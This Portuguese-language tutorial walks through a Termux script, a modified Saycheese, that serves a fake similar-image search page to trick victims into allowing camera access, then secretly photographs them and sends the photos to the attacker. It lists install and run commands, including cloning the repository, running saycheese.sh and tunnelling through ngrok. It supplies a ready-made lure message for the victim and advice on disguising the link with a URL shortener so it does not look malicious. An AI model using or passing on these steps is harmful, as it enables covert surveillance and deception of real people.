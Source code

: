 *TERMUX: script covid-19*

*Pra que serve:*

Essa script cria um link que hackeia a câmera da pessoa, tira fotos e envia pro invasor.

*Sobre a script:*

Uma script modificada  pelo Lil helê, com o objetivo de tornar a script original(Saycheese) , melhor pro público, sendo que quando o Lil helê modificou a versão atual da script, ela não funcionava, então como a script é boa, ele resolveu disponibilizar uma versão modificada que ele criou.

*Como funciona:*

Pro invasor ter acesso a câmera da vítima, a vítima vai ter que permitir acesso. Então sendo assim, o programador do mod, fez a página fingir ser um site de pesquisa de imagens similares na Internet.

A página é fingindo ser um site de pesquisar por imagens similares na Internet, Pois teria lógica a pessoa permitir acesso a câmera, uma vez que pra pesquisar a foto no site original, teria que permitir acesso a câmera.

Então para a pessoa cair na sua engenharia social, aconselho você mandar isso pra ela : "Olá, Tem como você ver se o meu site de pesquisar imagens similares na Internet está no ar e funcionando ? Eu já testei aqui comigo e tá pegando , mas quero ver se tá funcionando o site em outros aparelhos."

Enfim, Boa sorte amigo kk

*Comandos de instalação:*
*[1]*
apt update
*[2]*
apt upgrade
*[3]*
pkg install openssh
*[4]*
pkg install php -y
*[5]*
pkg install git
*[6] comando pra baixar a script.*
git clone https://github.com/dev892/covid-19
*[7]*
ls
*[8]*
cd saycheese;ls
*[9]*
*Obs:* Depois disso faça uma conta no ngrok gratuitamente, para obter um token... depois disso coloque o token no ngrok, em seguida faça os comandos abaixo :

*[10] execute a script *
bash saycheese.sh
*[11] escolha a opção do ngrok*
2
*[12] Explicação:*
Depois disso o link do ngrok será gerado , eu aconselho você personalizar esse link no site is.gd , pois o link original sai todo doido, então estaria na cara que é vírus.

Dica: personalize com o nome "BuscarPoImagensSimilares".

*[13] Como visualizar as imagens.*

Se a vítima permitiu acesso , vai aparecer umas palavras na tela.

Então caso ela tenha permitido acesso, a script vai ficar tirando fotos, e jogando na pasta da script.

Sendo assim, caso já queira visualizar as fotos é só da ctrl mais "c", e em seguida digitar os comandos pra mover todas as fotos pra pasta de downloads.


*CRÉDITOS:*
*Script original :* https://github.com/thelinuxchoice/saycheese
*Modificado por: Lil Helê.*
